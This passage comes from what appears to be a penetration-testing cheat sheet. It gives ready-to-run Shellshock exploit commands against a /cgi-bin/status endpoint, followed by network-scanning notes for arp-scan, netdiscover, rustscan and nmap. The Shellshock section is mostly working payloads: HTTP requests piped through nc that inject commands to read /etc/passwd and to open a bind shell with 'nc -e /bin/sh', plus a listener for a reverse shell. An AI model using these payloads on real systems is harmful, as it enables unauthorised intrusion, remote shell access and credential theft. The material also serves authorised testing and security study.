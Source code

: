     ```bash
    ./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
    ```

    cat file (view file contents)

    ```bash
    echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
    ```

    Shell Shock run bind shell

    ```bash
    echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
    ```

    Shell Shock reverse Shell

    ```bash
    nc -l -p 443
    ```

Scanning
--------

- arp-scan (Kali) - gives all IP's on NAT
- netdiscover (Kali) - show live IP's

    ```bash
    sudo netdiscover -r 10.0.0.0/24
    ```

- [rustscan](https://github.com/RustScan/RustScan#-usage) - Scans all 65k ports in 3 seconds and pipe them to NMAP

    ```bash
    rustscan -a 127.0.0.1 -- -A -sC 
    #it's like running nmap -Pn -vvv -p $PORTS -A -sC 127.0.0.1
    ```

- nmap

    ```bash
    nmap -T4 -p- -A 192.168.249.128
    nmap -sV -sC -O FILENAME IP
    nmap -sU -sV --script=vuln #search vulnarabilities
    #T4: speed 1-5, prefered 4, 
    #-p-: scan all 65K ports, 
    #-A: all information possible, 
    #-sS: stealth mode is running by default, it means that we do not establish a connection, instead after ACK we send a reset (SYN→SYNACK→RST)
    #-sV: find versions
    #-sc: default script
    #-O: output to file
    ls /usr/share/nmap/scripts/* | grep ftp #Search nmap scripts for keywords
